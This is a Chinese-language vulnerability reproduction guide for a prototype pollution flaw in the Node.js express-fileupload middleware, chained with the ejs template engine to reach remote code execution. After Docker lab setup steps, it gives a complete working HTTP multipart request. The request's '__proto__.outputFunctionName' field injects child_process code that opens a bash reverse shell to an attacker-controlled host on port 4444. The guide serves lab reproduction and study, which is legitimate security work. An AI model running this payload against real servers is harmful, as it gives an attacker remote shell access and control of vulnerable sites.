

# NodeJS expresss-fileupload模块原型链污染漏洞（CVE-2022-7699）

## 漏洞原理

`express-fileupload`是用来处理上传文件的中间件，在`1.1.7-alpha.4`及以前的版本存在原型链污染漏洞，如果站点还使用`ejs模板引擎(<=3.1.6)`，可以通过构造调用链污染`outputFunctionName`参数从而造成远程代码执行。

参考链接：

参考链接：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## 环境搭建

编译及运行环境：

```bash
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/`即可查看。



首先在本机开启端口监听，之后发送如下数据包，即可成功反弹shell。

```text
POST /upload HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：发送攻击后，会污染整个程序的原型链。之后正常的访问页面也会有影响，除非重启整个程序。所以需要删除污染的原型。
